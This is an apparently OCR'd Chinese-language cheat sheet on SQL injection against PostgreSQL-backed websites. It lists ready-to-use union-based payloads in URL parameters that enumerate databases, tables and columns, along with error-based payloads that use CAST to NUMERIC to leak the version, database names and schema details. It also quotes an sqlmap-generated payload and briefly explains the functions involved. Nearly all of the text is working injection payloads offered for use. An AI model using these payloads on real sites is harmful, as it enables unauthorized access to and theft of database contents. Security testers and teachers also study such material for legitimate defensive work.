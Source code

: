 ### (11)PostgreSQL-高权限读写注入

同样可以读写文件

注释只有 --+

```sql
测列数--例子：墨者
order by 4
?id=1 and 1=2 union select '1','2','3','4'
?id=1 and 1=2 union select '1',(select current_database()),'3','4'
version()
current_user
获取数据库名：
?id=1 and 1=2 union select null,string_agg(datname,','),null,null from pg_database
获取表名：
?id=1 and 1=2 union select null,string_agg(tablename,','),null,null from pg_tables where schemaname='public'
?id=1 and 1=2 union select null,string_agg(relname,','),null,null from pg_stat_user_tables
获取列名：
?id=1 and 1=2 union select null,string_agg(column_name,','),null,null from information_schema.columns where table_name='reg_users'

```

#### 报错注入

**postgresql**的报错注入原理与**MSSQL**的相同利用强类型语言数据库特性，当类型不一致时将会报错带出敏感数据达到注入的目的。具体用到的函数与**MSSQL**相同，**cast()**或者**convert()**这种强制转换的函数在与一个数比较达到报错目的。（前提是目标网站开启了报错提示）。

```sql
查看版本：
1 AND 2=CAST((SELECT version())::text AS NUMERIC)查库：
1 AND 2=CAST((SELECT current_database())::text AS NUMERIC)
1 AND 2=CAST((SELECT datname from pg_database limit 1 offset 0)::text AS NUMERIC)
………………查表：
1 AND 2=CAST((SELECT relname from pg_stat_user_tables limit 1 offset 0)::text AS NUMERIC)
………………查列：
1 AND 2=CAST((select column_name from information_schema.columns where table_name='test' limit 1 offset 0)::text AS NUMERIC)还有一个sqlmap跑出来的payload（仅供参考）：
1 AND 7778=CAST((CHR(113)||CHR(98)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (7778=7778) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(118)||CHR(112)||CHR(106)||CHR(113)) AS NUMERIC)
```

> 这里解释一下这几个函数在这里面的作用：
>
> **CAST()**：强制转换，在这里主要格式为CAST('string' as NUMERIC)，即将字符串转换为数字型。
>
> 
>
> **1::text** :  这个和上面恰好相反，它的意思是将一个数字型转换为text文本类型
>
> 
>
> sqlmap中有个**case...when...then...else...end** 是类似与if的分支条件语句
